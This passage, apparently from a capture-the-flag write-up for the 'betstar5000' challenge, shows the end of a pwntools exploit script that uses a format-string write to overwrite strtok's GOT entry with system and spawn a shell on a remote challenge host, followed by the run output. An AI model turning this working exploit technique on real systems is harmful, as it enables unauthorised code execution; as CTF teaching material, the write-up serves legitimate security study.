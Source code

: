 ```
print "printf: " + hex(pieBase + 0x9df)

# Calculate the amount of bytes we need to print for the fmt string write

x = (system & 0xffff) - 8
y = ((system & 0xffff0000) >> 16) - (system & 0xffff)

# Make the fmt string

noop = p32(strtok) + p32(strtok + 2) + "%" + str(x) + "x%19$n" + "%" + str(y) + "x%20$n"

# Add two new players
filler = "0"*12

for i in range(0, 2):
    addPlayer(filler)

editPlayer(1, noop[0:17])
editPlayer(2, noop[16:])

# Get our fmt string to the vulnerable printf call

target.sendline("1")
target.sendline("2")
target.sendline("100")

target.sendline("1")

# Send 'sh' to be our argument to system, to get our shell

target.sendline("sh")

# Enjoy your shell

target.interactive()
```

When we run it:

```
$    python exploit.py
[+] Opening connection to 13.53.69.114 on port 50000: Done
[*] '/Hackery/watev/betstar/betstar5000'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] '/Hackery/watev/betstar/libc-2.27.so'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
Welcome to the ultimate betting service.
Enter the amount of players: Name: Alright, now let's start!
1. Play a round
2. View scores
3. Add a latecommer
4. Edit player name
5. End the game

Amount of players playing this round: Each player makes a bet between 0 -> 100, the one who lands closest win the round!
```